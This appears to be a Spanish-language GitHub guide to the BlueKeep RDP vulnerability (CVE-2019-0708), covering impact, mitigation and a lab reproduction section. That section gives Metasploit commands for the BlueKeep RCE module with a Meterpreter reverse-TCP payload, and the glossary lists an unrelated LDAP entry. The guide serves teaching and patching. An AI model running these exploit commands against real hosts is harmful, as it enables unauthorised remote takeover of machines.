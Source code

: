 # CVE-2019-0708 Guía de Vulnerabilidad: BlueKeep

## 🔎 Descripción General

- **CVE-2019-0708**: Una vulnerabilidad de ejecución remota en Remote Desktop Services (RDP) que no requiere autenticación previa.

## ⚠️ Impacto

Permite a un atacante ejecutar código arbitrario enviando paquetes RDP maliciosos.

## 🧪 Reproducción (Solo en Laboratorio Aislado)

**Pasos para reproducir:**

1. Configura una VM con Windows 7 o Server 2008 R2 vulnerable.
2. Usa Metasploit:
   ```bash
   use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
   set RHOSTS <IP_VICTIMA>
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <TU_IP>
   run
   ```
3. Verifica si se abre una sesión de Meterpreter.


⚠️ **Advertencia:** Nunca pruebes estas técnicas fuera de un entorno de laboratorio controlado y con autorización explícita.

## 🛡️ Mitigación

Actualizar a una versión parchada de Windows. Deshabilitar RDP si no es necesario y usar NLA.

## 📝 Glosario

- **RCE**: Ejecución remota de código.
- **PoC**: Prueba de concepto.
- **LDAP**: Protocolo de acceso ligero a directorios.

## ✅ Tabla Resumen

| Aspecto              | Detalles                    |
|----------------------|-----------------------------|
| ID CVE               | CVE-2019-0708                    |
| Nombre               | BlueKeep                     |
| Impacto              | Permite a un atacante ejecutar código arbitrario enviando paquetes RDP maliciosos      |
| Tipo de Explotación  | RCE                         |
| Requiere Autenticación | No                        |
| Mitigación           | Actualizar a una versión parchada de Windows  |

## 🔄 Próximos Pasos

- Verificar si tu sistema está afectado.
- Aplicar los parches necesarios.
- Configurar controles de mitigación adicionales si no se puede parchear inmediatamente.

